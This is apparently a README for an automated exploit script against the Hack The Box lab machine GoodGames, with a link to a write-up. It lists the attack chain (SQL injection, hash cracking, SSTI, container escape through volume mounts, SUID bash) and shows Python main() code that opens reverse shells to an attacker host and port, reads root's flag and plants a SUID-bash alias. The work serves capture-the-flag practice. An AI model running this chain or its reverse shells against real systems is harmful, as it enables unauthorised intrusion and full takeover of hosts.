 # Hack The Box. Machines. GoodGames

Machine write-up: https://7rocky.github.io/en/htb/goodgames

### `autopwn.py`

This is a Python script that automates all the steps needed to compromise the machine. These are the steps:

- Union-based SQL injection
- Pasword hash cracking
- Server-Side Template Injection (SSTI)
- Docker container enumeration
- SSH into the host machine
- Abuse volume mounts
- Reverse shell as `root` using SUID `bash`

All these steps can be followed in the `main` function:

```python
def main():
    if len(sys.argv) != 4:
        log.error(f'Usage: python3 {sys.argv[0]} <wordlist> <lhost> <lport>')

    wordlist = sys.argv[1]
    lhost = sys.argv[2]
    lport = int(sys.argv[3])

    username, hashed_password = exploit_sqli()
    log.success(f'Found hashed password for "{username}": {hashed_password}')

    password = dictionary_attack(hashed_password, wordlist)

    if not password:
        log.error(f'Hashed password could not be cracked: {hashed_password}')

    s = requests.session()
    do_login(s, username, password)

    sh = listen(lport)
    Thread(target=exploit_ssti, args=(s, lhost, lport)).start()
    sh.wait_for_connection()

    host_ip, user, user_txt = container_enum(sh)
    abuse_volume_mounts(sh, host_ip, user, password)

    sh.sendlineafter(b'$ ', f'/home/{user}/bash -p'.encode())
    sh.sendlineafter(b'# ', f'cat /root/root.txt'.encode())
    sh.recvline()
    root_txt = sh.recvline().decode().strip()[-32:]
    log.success(f'user.txt: {user_txt}')
    log.success(f'root.txt: {root_txt}')

    sh.sendlineafter(b'# ', f'alias bash="/home/{user}/bash -p"'.encode())
    log.info(f'Set: alias bash="/home/{user}/bash -p"')

    root_sh = listen(lport + 1)
    Thread(
        target=sh.sendlineafter, args=(b'# ', rev_shell(lhost, lport + 1))
    ).start()
    root_sh.wait_for_connection()
    root_sh.sendlineafter(b'# ', f'rm /home/{user}/bash'.encode())
    root_sh.recvline()
    root_sh.interactive(prompt='')
```